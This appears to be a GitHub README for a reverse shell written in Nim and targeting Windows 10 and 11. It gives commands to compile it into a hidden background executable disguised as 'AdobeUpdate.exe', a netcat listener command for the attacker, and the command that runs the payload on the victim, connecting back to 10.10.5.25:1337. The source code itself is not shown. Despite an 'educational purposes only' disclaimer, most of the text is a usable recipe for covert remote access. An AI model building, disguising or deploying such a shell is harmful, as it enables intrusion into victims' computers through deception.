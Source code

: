 # Nim Reverse Shell

A simple reverse shell written in Nim (see the "Tested Operating Systems" section below for more details). **This code is made for educational purposes only**.


## Tested Operating Systems

- Windows 10 (10.0.19045) 
- Windows 11 (10.0.22621)


### Installation

```bash
sudo apt install mingw-w64
sudo apt install nim
```

The code can be compiled in various ways using Nim. In this example, the code is compiled to EXE using MinGW and runs in the victim's background once executed (thanks to the "--app:gui" flag). Update IP and port

```bash
nim c -d:mingw --app:gui rev_shell.nim
nim c -d:mingw --app:gui --opt:speed -o:AdobeUpdate.exe rev-shell.nim
  -d: define compiler
  --app: generate gui app
  --opt: optimize for speed
  -o: output
```

### Execution
Cybersecurity professional
```bash
nc -lvnp 1337
```
Target System
```bash
AdobeUpdate.exe 10.10.5.25 1337              --defaults to static IP in code if no arguments given
```



